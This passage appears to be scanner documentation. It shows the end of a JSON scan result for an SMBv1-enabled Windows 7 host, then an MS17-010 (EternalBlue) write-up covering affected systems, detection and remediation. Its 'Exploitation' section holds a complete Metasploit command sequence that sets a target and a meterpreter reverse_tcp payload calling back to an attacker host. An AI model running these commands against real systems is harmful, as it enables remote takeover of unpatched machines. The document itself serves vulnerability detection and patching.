 ```json
      "version": "6.1",
      "cpe": "microsoft:windows:7"
    },
    "smb_info": {
      "smb1": true,
      "smb2": true,
      "smb3": false
    },
    "ports_open": [445, 3389, 135, 139],
    "risk_level": "CRITICAL",
    "error": null
  }
]
```

## Vulnerability Details

### MS17-010 (EternalBlue)

**CVE**: CVE-2017-0144  
**Severity**: CRITICAL  
**CVSS Score**: 9.8

**Description**:
Remote code execution vulnerability in Microsoft SMBv1 server. Allows attackers to execute arbitrary code on the target system without authentication.

**Affected Systems**:
- Windows 7 SP1
- Windows 8 / 8.1
- Windows 10 (early versions)
- Windows Server 2008 / 2008 R2
- Windows Server 2012 / 2012 R2
- Windows Server 2016 (early versions)

**Detection Port**: 445 (SMB)

**Exploitation**:
```bash
# Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

**Remediation**:
- Apply Microsoft Security Bulletin MS17-010
- Disable SMBv1: `Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol`
- Block port 445 at network perimeter
- Enable Windows Firewall
